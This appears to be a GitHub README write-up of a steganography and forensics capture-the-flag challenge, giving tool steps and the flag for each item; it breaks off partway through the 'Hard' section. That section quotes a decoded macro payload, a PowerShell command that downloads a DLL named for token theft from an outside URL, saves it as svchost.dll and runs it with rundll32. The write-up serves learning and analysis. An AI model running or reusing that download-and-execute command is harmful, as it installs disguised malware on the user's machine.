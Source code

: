# uwe-steg-challenge

## Dj Khaled
Used the strings command to expose the flag at the bottom of the output - flag{alw4y3_l00k_4_5tr1n9s}

## PCAP 1 
- Opened the PCAP in wireshark 
- Used the filter `http.content_type contains "image/png"` packet no `16681` was the only one 
- File -> Export Objects -> HTTP -> Text Filter "PNG" -> export `meow.png`
- Open the file to reveal the flag - flag{PC4P_4_FL4GZ}

## SHREK.GIF
- Opend the gif in ezgif.com
- split the gif into frames
- one of the frames contained the flag - flag{g3t_shr3k3d_sk1d}


![image](https://github.com/user-attachments/assets/5f75bedd-4a62-4152-915b-522ce7eae8aa)


## Steghide 1
 - Ran command `steghide -sf uwe.jpg`
 - Exported a file called `stage.ps1`
 - There was a base64 encoded string `ZmxhZ3tuMHRfdG9vX2g0cmRfcmlnaHQ/fQ==`
 - The docoded string in cyberchef revealed the flag - flag{n0t_too_h4rd_right?}

## Steghide 2 
 - Ran command `strings uwe2.jpg`
 - below the file signature there was the line `XHey GCHQ! Use this for the st3gh1d3 pwd (remember to decode it!): ==wL6kHdpJXdjV2UyJ3R`
 - flipped the string and decoded it using base64 within the terminal `echo "R3JyU2VjdXJpdHk6Lw==" | base64 -d`
 - the command returned `GrrSecurity:/ `
 - ran command `steghide extract -sf uwe2.jpg` and used the password to return a `flag` file
 - the flag file contained `QlpoOTFBWSZTWRvPsyUAAATLgAAQTAAAAKXlFIogADFNMjExMQpkGgejSSNc6jujSwBhTBwpE/F3JFOFCQG8+zJQ`
 - using CyberChef the string was decoded first from base64 then using Bzip2 Decompress returning the flag - flag{g3tting_h4rd3r_n0w}

## Hard 
 - Ran command `binwalk -e test.docm` to extract data from the the docm file
 - there were two images contained in the doc  `image1.jpeg` and `image2.png`
 - ran command `binwalk -e image2.png` 
 - Ran the command `olevba test.docm` as there was a vba macro present
 - the output showed a base64 encoded url `$Command = "Invoke-WebRequest -Uri 'https://github.com/polygonben/polygonben.github.io/raw/refs/heads/master/assets/images/tok3n_th3ft.dll' -OutFile 'C:\temp\svchost.dll'; rundll32.exe C:\temp\svchost.dll,EntryPoint"` which downloads a dll file and runs it
 - 





